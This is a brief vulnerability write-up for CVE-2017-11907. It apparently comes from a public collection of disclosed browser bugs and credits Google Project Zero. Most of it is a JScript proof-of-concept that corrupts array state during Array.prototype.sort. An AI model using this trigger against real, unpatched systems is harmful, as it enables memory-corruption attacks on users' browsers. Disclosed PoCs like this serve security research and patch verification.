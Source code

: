# CVE-2017-11907

- Report: Oct 2017
- Fix: Dec 2017
- Credit: ifratric of Google Project Zero

## PoC

```html
<script language="Jscript.Encode">
var vars = new Array(100);

var arr = new Array(1000);
for(var i=1;i<600;i++) arr[i] = i;

var o = {toString:function() {
  for(var i=600;i<1000;i++) {
    arr[i] = 1337;
  }
}}

function go() {
  arr[0] = o;
  Array.prototype.sort.call(arr);
}


go();

</script>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11907)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1383)
